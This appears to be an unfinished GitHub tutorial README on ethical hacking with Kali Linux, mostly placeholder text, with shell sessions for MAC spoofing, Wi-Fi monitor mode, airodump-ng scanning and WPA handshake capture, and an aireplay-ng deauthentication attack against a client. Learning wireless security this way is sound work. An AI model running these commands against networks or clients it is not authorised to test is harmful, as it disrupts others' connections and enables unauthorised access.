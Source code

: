 # Ethical Hacking With [Kali Linux](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/) 

### Jubeen Shah  © 2019 

## Contents
1. Introduction
2. H/W + S/W Requirements
3. Topics
	1. Network Security
		1. Mac Address spoofing
		2. Monitoring packets
	2. Information Gathering


### Introduction
Add description

### Requirements 
Add description

### Topics
Add description


#### Network Security
Add description


##### Mac Address Spoofing
Add description


```shell
root@kali:~# ifconfig wlan0 down
root@kali:~# ifconfig wlan0 hw ether 00:11:22:33:44:55
root@kali:~# ifconfig wlan0 up
```

##### Pre-connection Attacks

Add description

```shell
root@kali:~# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          
root@kali:~# ifconfig wlan0 down
root@kali:~# airmon-ng check kill

Killing these processes:

  PID Name
  508 dhclient
  547 wpa_supplicant

root@kali:~# iwconfig wlan0 mode monitor
root@kali:~# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          
root@kali:~# ifconfig wlan0 up
root@kali:~# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.412 GHz  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

Add description for packet capturing using monitor mode

```shell

root@kali:~/Desktop/Ethical-Hacking# airodump-ng wlan0


BSSID  PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                  
 00:25:00:FF:94:73   -1        0        0    0  -1  -1                    <length:  0>                                                            
 84:D4:7E:43:1C:C2  -42       32        0    0   1  130  OPN              xx                                                                    
 84:D4:7E:43:1C:C1  -42       32        0    0   1  130  OPN              xx
 84:D4:7E:43:1C:C0  -42       31        0    0   1  130  WPA2 CCMP   MGT  xx                                                                 
wi-fi-ma-ca-dd-rs  -32       65        0    0   6  195  WPA2 CCMP   PSK xx
 C0:A0:BB:F2:7D:37  -86       46       60    0  10  130  WPA2 CCMP   PSK  xx 
```

Add description for packet capture using monitor mode for a particular wifi network and writing it down to a file. Then using wireshark to investigate the `.cap` file

```shell
root@kali:~/Desktop/Ethical-Hacking# airodump-ng  --bssid B0:4E:26:55:2B:F2 --channel 6 --write test wlan0


 CH  6 ][ Elapsed: 2 mins ][ 2019-01-17 07:59 ][ WPA handshake: B0:4E:26:55:2B:F2                                         
                                                                                                                                                  
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                  
 B0:4E:26:55:2B:F2  -34  96     1483     4832    7   6  195  WPA2 CCMP   PSK  ssid-name                                                         
                                                                                                                                                  
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                        
                                                                                                                                                  
wi-fi-ma-ca-dd-rs   ta-rg-et-ma-ca-ddr  -32    5e-24   19576     6803                                                                                wi-fi-ma-ca-dd-rs   ta-rg-et-ma-ca-ddr  -33    0e-11      0      214  J's Network                                                                   
wi-fi-ma-ca-dd-rs   ta-rg-et-ma-ca-ddr  -33    0e-11    844      222  J's Network  
 ```
 
 add description for performing a deauthentication attack on the connected clients. This would disconnect the client from the connected wifi.
 
 ```shell
 root@kali:~/Desktop/Ethical-Hacking# aireplay-ng --deauth 1000000 -a wi-fi-ma-ca-dd-rs -c ta-rg-et-ma-ca-ddr wlan0

 ```

##### Gaining Access Attacks

#### Inforamtion Gathering

Please visit this [README.md](./Topics/01-Information-Gathering/README.md) file for this section